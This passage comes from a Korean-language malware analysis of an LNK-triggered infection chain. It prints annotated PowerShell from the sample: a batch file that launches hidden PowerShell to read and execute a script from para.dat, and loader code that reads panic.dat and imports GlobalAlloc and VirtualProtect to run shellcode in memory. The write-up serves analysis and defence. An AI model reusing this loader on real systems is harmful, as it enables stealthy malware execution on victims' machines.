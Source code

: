 LNK 파일에 의해 실행되는 **price.bat** 파일 내부를 확인해보면, 다음과 같은 파워셀 코드를 확인할 수 있습니다. **para.dat** 파일에 접근하여, 파일을 읽어들여 내부에 존재하는 script를 실행합니다.

```powershell
# powershell.exe 실행
start /min C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden

# para.dat 파일 경로 획득
$stringPath=$env:temp+'\'+'para.dat';

# para.dat 파일 내의 데이터 획득
$stringByte = Get-Content -path $stringPath -encoding byte;

# para.dat 내의 데이터를 utf8로 인코딩
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);

# 인코딩한 데이터로 scriptblock을 생성
$scriptBlock = [scriptblock]::Create($string);

# 생성한 scriptblock을 실행
&$scriptBlock;
```



### ▪ <u>para.dat 분석</u>

**price.bat** 파일에 의해 실행되는 **para.dat** 파일은 스레드를 생성하여 악성  Shellcode 를 실행합니다.



#### 1. panic.dat 데이터 획득

```powershell
# panic.dat 파일 경로 획득
$exePath=$env:public+'\'+'panic.dat';

# 내부 데이터를 획득
$exeFile = Get-Content -path $exePath -encoding byte;
```



#### 2. SecurityProtocol 속성을 TLS 1.2로 설정

```powershell
# SecurityProtocol 속성을 TLS 1.2로 설정
[Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([Net.SecurityProtocolType], 3072);
```



#### 3. kernel32 API 획득

```powershell
# "kernel32.dll"
$k1123 = [System.Text.Encoding]::UTF8.GetString(34) + 'kernel32.dll' + [System.Text.Encoding]::UTF8.GetString(34);

# GlobalAlloc 획득
$a90234s = '[DllImport(' + $k1123 + ')]public static extern IntPtr GlobalAlloc(uint b,uint c);';

# GlobalAlloc를 사용하기 위한 클래스 정의
$b = Add-Type -MemberDefinition $a90234s  -Name 'AAA' -PassThru;

# VirtualProtect 획득
$d3s9sdf = '[DllImport(' + $k1123 + ')]public static extern bool VirtualProtect(IntPtr a,uint b,uint c,out IntPtr d);';

# VirtualProtect를 사용하기 위한 클래스 정의
$a90234sb = Add-Type -MemberDefinition $d3s9sdf -Name 'AAB' -PassThru;
```